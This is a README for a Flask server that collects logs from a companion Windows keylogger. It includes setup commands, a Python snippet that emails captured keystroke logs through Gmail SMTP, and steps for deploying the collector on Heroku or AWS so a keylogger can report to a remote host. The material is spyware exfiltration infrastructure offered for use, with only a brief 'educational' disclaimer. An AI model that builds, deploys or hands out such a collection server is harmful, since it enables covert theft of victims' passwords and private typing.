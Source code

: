 # Keylogger Log Server

## Overview
This Flask-based log server receives and stores logs from the Windows-based keylogger (keylogger.c). It supports local operation (e.g., http://127.0.0.1:5000 or http://192.168.1.3:5000), SMTP email transmission, or remote server deployment for receiving logs. The server is designed for educational and ethical auditing purposes in controlled environments with explicit permission.

## Features

Receives keylogger logs via HTTP POST or SMTP email.
Stores logs in a local file (e.g., server_logs.txt) with timestamps.
Lightweight and customizable for local or remote setups.
Supports ethical use in cybersecurity labs.

## Requirements

**OS**: Any OS supporting Python (tested on Windows 11)
**Python**: Version 3.6 or higher
**Dependencies**: Flask (pip install flask), smtplib (standard library for SMTP)
**Network**: Local network access or internet for remote/SMTP setup

## Installation

1. Install Python 3.6+ from python.org.

2. Install Flask:
```bash
pip install flask
```

4. Clone or download the repository:

<pre>```git clone <repository-url> cd log-server```</pre>




5. Ensure the keylogger is configured to send logs to the server’s URL (e.g., http://127.0.0.1:5000/log) or an email address for SMTP.


## Usage

1. Run the Flask server:
```bash
python log_server.py
```


3. The server starts at http://127.0.0.1:5000 (or a specified IP like 192.168.1.3:5000).

4. Logs are received at the /log endpoint (HTTP POST) or via email (SMTP) and saved to server_logs.txt.

5. Stop the server with Ctrl+C.


## Customization
**Local Server**

1. Default setup runs locally:
```bash
python log_server.py
```


3. Update the keylogger’s URL to match the server’s IP/port (e.g., http://192.168.1.3:5000/log).


**SMTP Email Transmission**

1. Modify log_server.py to send logs via email using smtplib:
```python
import smtplib
from email.mime.text import MIMEText

def send_email(log_data, recipient_email):
    msg = MIMEText(log_data)
    msg['Subject'] = 'Keylogger Log'
    msg['From'] = 'your_email@example.com'
    msg['To'] = recipient_email
    with smtplib.SMTP('smtp.gmail.com', 587) as server:
        server.starttls()
        server.login('your_email@example.com', 'your_app_password')
        server.send_message(msg)
---
```

2. Generate an app-specific password from your email provider (e.g., Gmail’s 2-Step Verification settings).

3. Configure the keylogger to call send_email with log data and a recipient email, or have the server forward POST requests as emails.


## Remote Server Deployment

1. Deploy to a cloud platform (e.g., Heroku, AWS EC2):

**Heroku:**

1. Create a Heroku app: heroku create your-app-name.

2. Push the code: git push heroku main.

3. Set dynamic port in log_server.py:
```python
import os
port = int(os.environ.get('PORT', 5000))
app.run(host='0.0.0.0', port=port)
---
```

5. Update the keylogger’s URL to the remote server’s address.


## Considerations

Do not store or transmit sensitive data without encryption.

## Challenges Overcome

1. Resolved networking issues for stable HTTP/SMTP log transmission.
2. Configured Flask for reliable POST request handling.
3. Managed log storage to prevent data loss.
4. Overcame SMTP authentication and remote deployment challenges.

License
This project is for educational purposes only and is not licensed for commercial or unethical use.
